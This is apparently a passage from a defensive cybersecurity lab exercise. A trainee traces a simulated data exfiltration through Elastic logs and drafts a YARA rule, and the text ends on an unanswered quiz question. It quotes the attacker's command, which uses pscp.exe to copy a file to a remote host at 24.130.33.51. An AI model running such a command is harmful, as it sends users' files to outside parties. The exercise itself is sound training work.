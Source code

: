 pscp.exe
﻿

The query focuses on the executable used to perform the exfiltration, and it returns five results.

﻿

Review the logs for the process command line. The following command was used by the attacker: 

cmd.exe /c "pscp.exe C:\Users\trainee\This0ne.txt hacker@24.130.33.51:/home/hacker/Desktop"
﻿

The attack focuses on exfiltrating the This0ne.txt file. A previously identified log shows the execution of the second portion of the command, as seen in Figure 39-24 below

<img width="1920" height="56" alt="image" src="https://github.com/user-attachments/assets/6950f6af-79af-46aa-8553-31b767fa3f02" />



This log shows a key detail of the attack. While the attack used SCP and Secure File Transfer Protocol (SFTP), blocking those would have potential implications within the environment such as preventing administrators from properly executing file transfers. 


While the file was initially named TFTP.exe, TFTP was never in use, which would be indicated by port 69. Additionally, FTPS was not used in the exfiltration.


However, the specific suite used is identified in the log as PuTTY suite, as seen in Figure 39-25 below.

<img width="1172" height="285" alt="image" src="https://github.com/user-attachments/assets/d9b8837b-90da-46cc-9ca0-0814cc680647" />


The PuTTY suite can be blocked on the system by hash values, thus preventing future exfiltration attacks using this software.


----------------


System Hardening 2
A YARA rule can be created to identify the attack based on multiple parameters. Review the following YARA rule:

import "hash"
rule rule1 {

	condition:
		filesize > 20KB and hash.md5(0,filesize) == "____________"
		}
﻿

Identify the correct value in Elastic to complete the rule and correctly identify the initial access method used by the attacker.

﻿

Question:
﻿
